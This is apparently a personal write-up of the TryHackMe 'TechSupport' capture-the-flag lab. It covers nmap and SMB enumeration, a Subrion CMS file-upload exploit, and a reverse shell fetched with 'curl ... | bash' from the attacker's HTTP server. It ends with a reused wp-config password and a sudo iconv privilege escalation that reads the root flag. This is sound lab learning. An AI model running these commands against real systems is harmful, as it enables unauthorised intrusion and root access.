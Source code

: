 ```┌──(kali㉿kali)-[~]
└─$ nmap 10.10.33.65 -sV -p 22,139,445 -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 15:13 IST
Nmap scan report for 10.10.33.65
Host is up (0.38s latency).                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
PORT    STATE SERVICE     VERSION                                                                                                                                                                                                           
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                                                                                                                     
| ssh-hostkey:                                                                                                                                                                                                                              
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)                                                                                                                                                                              
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2024-01-02T15:14:16+05:30
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1h49m56s, deviation: 3h10m29s, median: 2s
| smb2-time: 
|   date: 2024-01-02T09:44:17
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.25 seconds
```


i use nmap scripts for enumerating shares and i found out some share and i try to connect with smbclient 

```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.33.65/websvr
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 12:47:38 2021
  ..                                  D        0  Sat May 29 12:33:47 2021
  enter.txt                           N      273  Sat May 29 12:47:38 2021

                8460484 blocks of size 1024. 5700016 blocks available
smb: \> 
```

from share i gor cred which where incripted with magic formula i decrepted with cybercheif website with magic option 

then i login into subrion cms with creds
then i searvch for cms version online and got many exploit 
Subrion CMS 4.2.1 - Arbitrary File Upload

i successfully gain access but acces was limited so i make a reverse shell and started a listner and uploaded the listner to webserver and curl from victim maCHIN
```──(kali㉿kali)-[~]
└─$ nano shell.sh               
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.191.223 - - [02/Jan/2024 17:59:58] "GET /shell.sh HTTP/1.1" 200 -
^C
```
```$ pwd
/var/www/html/subrion/uploads

$ whoami
www-data

$ curl 10.2.56.209:8000/shell.sh | bash

```

tryhackme-->techsupport plese check 


as websiter was having wordpress so i found the wp-config.php file which was under var/www/html/  where there was a password i tied this password for other user in the sysytem and it worked then i try sudo -l there i found
```scamsite@TechSupport:/$ cd root
cd root
bash: cd: root: Permission denied
scamsite@TechSupport:/$ sudo -l
sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:/$ sudo -u root iconv  -f 8859_1 -t 8859_1 "/root/root.txt"
<o -u root iconv  -f 8859_1 -t 8859_1 "/root/root.txt"                       
851b8233a8c09400ec30651bd1529bf1ed02790b  -
scamsite@TechSupport:/$ 
```


then from gobins i found the exploit but need to understqand the code
